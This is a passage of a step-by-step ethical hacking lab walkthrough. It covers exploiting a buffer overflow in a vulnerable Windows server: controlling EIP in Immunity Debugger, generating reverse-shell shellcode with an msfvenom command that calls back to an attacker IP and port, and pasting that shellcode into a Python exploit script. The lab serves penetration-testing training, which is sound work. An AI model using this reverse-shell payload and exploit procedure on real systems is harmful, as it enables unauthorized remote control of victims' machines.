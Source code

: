 135. In the **Immunity Debugger** window, you will observe that the EIP register has been overwritten with the return address of the vulnerable module, as shown in the screenshot.
    
    > You can control the EIP register if the target server has modules without proper memory protection settings.
    
    ![Screenshot](https://labondemand.blob.core.windows.net/content/lab117714/screens/hoscdaiu.jpg)
    
136. Close **Immunity Debugger** and the vulnerable server process.
    
137. Re-launch the vulnerable server as an administrator.
    
138. Click [Parrot Security](https://labclient.labondemand.com/Instructions/5a895bf5-5f95-4504-9515-0e8f8f743e00#) to switch to the **Parrot Security** machine.
    
139. Click the **MATE Terminal** icon at the top of the **Desktop** window to open a new **Terminal** window.
    
140. A **Parrot Terminal** window appears. In the terminal window, type **sudo su** and press **Enter** to run the programs as a root user.
    
141. In the **[sudo] password for attacker** field, type **toor** as a password and press **Enter**.
    
    > The password that you type will not be visible.
    
142. Now, type **cd** and press **Enter** to jump to the root directory.
    
143. In the terminal window enter the following command and press **Enter** to generate the shellcode.
    
    **msfvenom -p windows/shell_reverse_tcp LHOST=[Local IP Address] LPORT=[Listening Port] EXITFUNC=thread -f c -a x86 -b “\x00”**
    
    > Here, **-p**: payload, local IP address: **10.10.1.13**, listening port: **4444**., **-f**: filetype, **-a**: architecture, **-b**: bad character.
    
144. A shellcode is generated, as shown in the screenshot.
    
145. Select the code, right-click on it, and click **Copy** to copy the code.
    
    ![Screenshot](https://labondemand.blob.core.windows.net/content/lab117714/screens/2kjzwspn.jpg)
    
146. Close the **Terminal** window.
    
147. Maximize the previously opened **Terminal** window. Type **pluma shellcode.py** and press **Enter**.
    
    > Ensure that the terminal navigates to **/root/Desktop/Scripts**.
    
148. A **shellcode.py** file appears in the text editor window, as shown in the screenshot.
    
    ![Screenshot](https://labondemand.blob.core.windows.net/content/lab117714/screens/pw0r1r25.jpg)
    
149. Now, paste the shellcode copied in **Step#145** in the overflow option (**Line 4**); then, press **Ctrl+S** to save the file and close it.
    
    ![Screenshot](https://labondemand.blob.core.windows.net/content/lab117714/screens/rr1el1a4.jpg)
    